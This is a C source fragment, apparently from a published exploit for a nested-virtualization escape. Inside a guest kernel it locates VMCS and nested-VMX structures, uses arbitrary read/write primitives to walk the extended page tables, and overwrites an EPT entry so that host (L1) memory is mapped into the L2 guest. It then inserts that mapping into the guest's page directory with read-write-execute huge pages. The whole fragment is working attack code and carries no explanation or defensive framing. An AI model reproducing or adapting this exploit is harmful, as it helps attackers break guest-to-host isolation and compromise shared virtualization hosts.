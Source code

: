 ```c

    uint64_t *pgde_page = 0;
    uint64_t pgde_page_pa = 0;

    uint64_t l2_entry = 0;

    uint64_t physbase = 0;
    uint64_t cr3 = 0;
    uint64_t *pgd = 0;

    uint64_t handle_vmread_page = 0;
    uint8_t *handle_vmread = 0;

    uint64_t i;

    if (!find_l1_vmcs(&l1_vmcs_offset)) {
        return 0; // not found
    }

    if (!find_nested_vmx(&nested_vmx_offset)) {
        return 0; // not found
    }

    l2_vmcs_addr = read_guy(nested_vmx_offset+1);
    pr_info("[exp]: YOU ARE HERE: %llx\n", l2_vmcs_addr);

    physbase = l2_vmcs_addr & ~0xfffffffull;
    pr_info("[exp]: probably physbase: %llx\n", l2_vmcs_addr & ~0xfffffff);

    eptp_value = read_guy(l1_vmcs_offset-50);
    pr_info("[exp]: eptp_value: %llx\n", eptp_value);

    ept_addr = physbase + (eptp_value & ~0xfffull);
    pr_info("[exp]: ept_addr: %llx\n", ept_addr);

    ept_offset = (ept_addr-l2_vmcs_addr) / 8;
    pr_info("[exp]: ept_offset: %llx\n", ept_offset);

    // read first entry in ept to get the PML4E
    pml4e_value = read_guy(ept_offset);
    pr_info("[exp]: pml4e_value: %llx\n", pml4e_value);

    pml4e_addr = physbase + (pml4e_value & ~0xfffull);
    pr_info("[exp]: pml4e_addr: %llx\n", pml4e_addr);

    pml4e_offset = (pml4e_addr-l2_vmcs_addr) / 8;
    pr_info("[exp]: pml4e_offset: %llx\n", pml4e_offset);

    // at 6GB will be an identity mapping of the l1 memory in l2
    write_guy(pml4e_offset + 6, 0x987);

    cr3 = read_cr3();
    pgd = (cr3 & ~0xfffull) + page_offset_base;
    pr_info("[exp]: pgd: %llx\n", pgd);

    pgde_page = kzalloc(0x1000, GFP_KERNEL);
    pgde_page_pa = virt_to_phys(pgde_page);

    // sticking the l1 mapping at the PGD entry the LDT remap usually goes at cuz why not
    pgd[272] = pgde_page_pa | 0x7;

    // huge and rwxp
    l2_entry = 0x180000000 | (1<<7) | 0x3;
```